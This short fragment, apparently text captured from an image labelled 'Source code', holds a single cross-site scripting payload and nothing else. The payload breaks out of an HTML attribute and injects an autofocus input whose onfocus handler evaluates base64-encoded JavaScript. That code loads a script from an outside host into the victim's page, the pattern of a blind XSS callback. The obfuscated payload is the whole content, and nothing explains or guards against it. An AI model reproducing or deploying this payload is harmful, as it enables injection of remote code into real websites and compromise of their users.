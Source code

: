 # 1
">&lt;input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaTBzLmNhIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw autofocus>
